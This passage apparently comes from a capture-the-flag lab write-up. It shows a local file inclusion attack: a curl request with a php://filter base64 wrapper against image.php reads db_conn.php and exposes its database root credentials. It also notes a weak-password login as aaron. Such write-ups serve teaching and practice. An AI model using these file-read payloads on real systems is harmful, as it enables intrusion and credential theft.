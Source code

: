 ![](screenshots/image-php-scr.png)

got database creds from `db_conn.php`
```php
❯ curl -s 'http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=db_conn.php' | base64 -d
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
```

* **Creads: `root:4_V3Ry_l0000n9_p422w0rd`**

Get logged in with `aaron:aaron` on webapp but still nothing.

![](screenshots/aaron-loggedin.png)
